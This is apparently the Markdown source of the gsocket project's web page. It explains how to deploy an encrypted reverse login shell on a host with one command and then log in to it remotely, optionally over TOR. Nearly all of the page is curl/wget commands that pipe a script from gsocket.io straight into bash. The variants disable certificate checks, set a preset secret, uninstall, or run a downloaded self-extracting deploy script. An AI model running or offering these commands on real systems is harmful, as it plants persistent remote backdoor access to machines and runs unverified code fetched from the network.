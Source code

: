 ```yaml
---
layout: default
---
```


<p class="panel-note2" markdown="1">Can no longer connect to your deployed gs-netcat? Use this command >>*S=YourSecret bash -c "$(curl -fsSL gsocket.io/**xold**)"*<< or >>*S=YourSecret bash -c "$(wget -qO- gsocket.io/**xold**)"*<< to access your old session. [Click here to update to 1.4.32 or later]({{site.github.repository_url}}/blob/master/deploy/README-update.md).</p>

Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like. 

> _This must be the quickest way to access a system_
>                                                 -- anonymous

Use either one of these two commands to _deploy_:
```shell
bash -c "$(curl -fsSL gsocket.io/x)"
```
```shell
bash -c "$(wget --no-verbose -O- gsocket.io/x)"
```

Use either one of these two commands to _uninstall_:
```shell
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
```
```shell
GS_UNDO=1 bash -c "$(wget -qO- gsocket.io/x)"
```

Use either command to _access_ the remote host:
```shell
S="ExampleSecretChangeMe" bash -c "$(curl -fsSL gsocket.io/x)"
```
```shell
S="ExampleSecretChangeMe" bash -c "$(wget -qO- gsocket.io/x)"
```

<p class="panel-note2" markdown="1">This is just one of many GSOCKET examples. More on [GitHub]({{site.github.repository_url}}).</p>

{:refdef: style="text-align: center;"}
## Screenshots
{: refdef}
Deploy on a host
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Log in to the host from your workstation
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}

{:refdef: style="text-align: center;"}
## Tips & Tricks
{: refdef}

Ignore SSL / Certificate warnings:
```shell
bash -c "$(curl -fsSLk gsocket.io/x)"
```
```shell
bash -c "$(wget --no-check-certificate -qO- gsocket.io/x)"
```

Deploy with a predefined secret:
```shell
X=ExampleSecretChangeMe bash -c "$(curl -fsSL gsocket.io/x)"
```

Deploy with *curl* and fallback to *wget*:
```shell
command -v curl >/dev/null && bash -c "$(curl -fsSL gsocket.io/x)" || bash -c "$(wget -qO- gsocket.io/x)"
```

Deploy with a predefined secret. Try *curl* and fallback to *wget*:
```shell
X=ExampleSecretChangeMe && (command -v curl >/dev/null && X=$X bash -c "$(curl -fsSL gsocket.io/x)" || X=$X bash -c "$(wget -qO- gsocket.io/x)")
```
  
Deploy from self-extracting shell-script [deploy-all.sh](https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh) without fetching any packages:
```
wget https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh
chmod 755 deploy-all.sh
./deploy-all.sh
# Use "GS_UNDO=1 ./deploy-all.sh" to uninstall
```

<p class="panel-note" markdown="1">Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).</p>



